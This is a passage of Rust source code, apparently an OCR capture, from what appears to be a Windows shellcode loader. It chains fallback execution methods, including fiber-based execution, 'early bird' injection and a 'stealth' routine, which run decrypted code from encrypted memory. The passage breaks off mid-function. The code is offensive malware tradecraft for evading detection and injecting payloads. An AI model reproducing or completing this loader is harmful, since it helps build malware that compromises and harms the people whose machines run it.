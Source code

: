 ```rust
                Err(_) => {
                    // Fallback to direct fiber execution
                    match execute_code_with_fibers(&mut encrypted_memory) {
                        Ok(_) => {
                        },
                        Err(_) => {
                            // Final fallback to original methods if fibers fail
                            match execute_via_early_bird_injection(code_data) {
                                Ok(_) => {
                                },
                                Err(_) => {
                                    match execute_code_stealth(&mut encrypted_memory) {
                                        Ok(_) => {},
                                        Err(_) => {}
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
    
    Ok(())
}

// Simplified direct fiber execution function that uses the Fiber struct
#[cfg(target_os = "windows")]
unsafe fn execute_code_with_direct_fiber(encrypted_memory: &mut EncryptedMemory) -> Result<(), Box<dyn Error>> {
    use std::{ffi::c_void, ptr::null};
    use windows_sys::Win32::{
        Foundation::GetLastError,
        System::Threading::{
            ConvertFiberToThread, ConvertThreadToFiber, CreateFiber, DeleteFiber,
            SwitchToFiber, LPFIBER_START_ROUTINE
        }
    };
    
    struct Fiber {
        shellcode_fiber_address: *mut c_void,
        primary_fiber_address: *mut c_void
    }
    
    impl Drop for Fiber {
        fn drop(&mut self) {
            unsafe {
                if !self.shellcode_fiber_address.is_null() {
                    DeleteFiber(self.shellcode_fiber_address);
                }
                if !self.primary_fiber_address.is_null() {
                    ConvertFiberToThread();
                }
            }
        }
    }
    
    let code = encrypted_memory.get_decrypted_data();
    let size = code.len();
    
    // Validate code size
    if size == 0 {
```